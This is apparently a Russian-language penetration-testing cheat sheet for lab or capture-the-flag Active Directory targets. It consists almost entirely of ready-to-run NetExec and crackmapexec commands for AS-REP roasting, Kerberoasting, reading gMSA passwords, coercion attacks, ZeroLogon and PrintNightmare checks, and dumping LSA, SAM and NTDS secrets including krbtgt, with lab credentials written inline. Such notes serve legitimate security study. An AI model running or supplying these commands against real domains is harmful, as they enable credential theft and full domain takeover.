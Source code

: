 	Собственно чаще всего самое сложное - найти первую учетку.
	Дальше - придумать как поднять права (RDP / nxc / доступ к шарам + rubeus, bloodyad, mimikatz)

# DOMAIN


# Check list domain

		* Создание krb5.conf и получение tgt и кербероастинг с помощью nxc (https://github.com/Pennyw0rth/NetExec)

		(получение krb5.conf) nxc smb dc01.mirage.htb -d mirage.htb -k --generate-krb5-file krb5.conf
		sudo mv krb5.conf /etc/krb5.conf
		
  		(asreproasting)	nxc ldap -u users.txt -d mirage.htb -k --asreproast asreprotuser.txt dc01.mirage.htb
		(керберостинг с nxc) nxc ldap -u david.jjackson -p 'pN8kQmn6b86!1234@' -d mirage.htb -k --kerberoasting kerberoastables.txt dc01.mirage.htb

  		(получение tgt) nxc smb -u nathan.aadam -p '3edc#EDC3' -d mirage.htb -k --generate-tgt nathan.aadam dc01.mirage.htb
		(чтение GMSA)  nxc ldap -u javier.mmarshall -p 'Password123' -k --gmsa dc01.mirage.htb
		
 		(Нахождение делегирования)  nxc ldap  10.10.11.78 -u mark.bbond -p '1day@atime' -k --trusted-for-delegation --find-delegation   

   		(поиск центра сертификации)	crackmapexec ldap 'dc.sequel.htb' -d 'sequel.htb' -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs  	
  		
		(Уязвимые для атак перенаправления серверы )	nxc smb 10.10.1.50 -u kemг -p password -M coersce_plus		
		
		nxc smb dc1.corp.com -u '' -p '' -M zerologon

		nxc smb dc1.corp.com -u '' -p '' -M printnightmare

		(скрипт проверки найтмор)	/printnightmare -check dc.com.com/user\@termit-win(хост) -no-pass -k 		

		(список компов с)	/printnightmare -list dc.com.com/user\@termit-win(хост) -no-pass -k		

		(CVE-2020-0796, также известная как SMBGhost )	nxc smb dc1.corp.com -u '' -p '' -M smbghost		

		(petip potam)	nxc smb dc1.corp.com -u '' -p '' -M coerce_plus	

		(квота машин в домене)	nxc ldap dc1.corp.com -u 'user' -p 'passs' -k --use-kcache -M maq	

		(LDAP Relay и подписи)	nxc ldap dc1.corp.com -u 'user' -p 'passs' -k --use-kcache -M ldap-checker		

		(атака Pre2k)	nxc ldap dc_control.do.com -u 'comp' -k --use-kcache -M pre2k		

		(атака timeroasting)	nxc smb rustykey.htb -M timeroast

		(поиск антивирусов)	nxc smb dc1.corp.com -u 'administrator' -p 'password' -M enum_av		

		(дамп хранилища Lsa)	nxc smb dc1.corp.com -u 'administrator' -p 'password' --lsa			(дамп хранилища Lsa)

		nxc smb dc1.corp.com -u 'administrator' -p 'password' --sam

		nxc smb dc1.corp.com -u 'administrator' -p 'password' --ntds --user krbtg
